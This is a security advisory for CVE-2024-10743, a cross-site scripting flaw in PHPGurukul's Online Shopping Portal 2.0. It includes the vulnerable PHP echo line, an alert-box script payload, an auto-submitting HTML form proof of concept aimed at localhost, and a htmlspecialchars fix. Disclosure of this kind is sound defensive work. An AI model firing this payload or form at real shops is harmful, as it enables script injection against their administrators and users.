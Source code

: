 # CVE-2024-10743 - [XSS vulnerability] found in Online Shopping Portal 2.0 - (editable_ajax.php)


Affected Project: **Online Shopping Portal**

Exploit Author: Dimitris Chatzidimitris

Platform: Web/Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/shopping-portal-free-download/)

Version: 2.0

Updated: 06 June 2024

Vulnerable path/file: /admin/assets/plugins/DataTables/examples/examples_support/editable_ajax.php

Injection parameter: `value`

<br />

Size: 30.5 MB

Sha256: 127e719bf4236a9140f146dd7a6ae54f2a9234b9e6f0aeda240e7a4905c6e73c

<br />

## Vulnerability Description:
The issue arises in the `value` paramateter because in the code it is  directly echoing the user-supplied input `($_POST['value'])` without any sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
echo $_POST['value'].' (server updated)';
```

<br />

## Injection Payload Tested:

We set `value` to:
```
"><script>alert('XSS')</script>
```

<br />

## Execution:

When the browser parses this through a POST request, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `Online Shopping Portal` looks like:

<br />

![Portal](https://i.postimg.cc/zf1f8fgt/1.png)

<br />

As it is a POST request we need to use a file `test_form.html` with the following content to be able to trigger the XSS popup:
```
<!DOCTYPE html>
<html>
<head>
    <title>Test XSS Injection</title>
</head>
<body>
    <form action="http://localhost/shopping/admin/assets/plugins/DataTables/examples/examples_support/editable_ajax.php" method="POST" id="xssForm">
        <input type="hidden" name="value" value='"><script>alert("XSS")</script>'>
        <input type="submit" value="Submit">
    </form>

    <script>
        // Automatically submit the form when the page loads
        document.getElementById('xssForm').submit();
    </script>
</body>
</html>
```

Then we have to open the file `test_form.html` in the browser:

For example url in the browser:
`file:///home/username/Desktop/test_form.html`

<br />

After submitting the payload using the file `test_form.html` the XSS payload `"><script>alert('XSS')</script>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/wBGg3TyY/2.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
echo htmlspecialchars($_POST['value'], ENT_QUOTES, 'UTF-8') . ' (server updated)';
```

<br />

> One Click Can Change Everything: Be Secure.
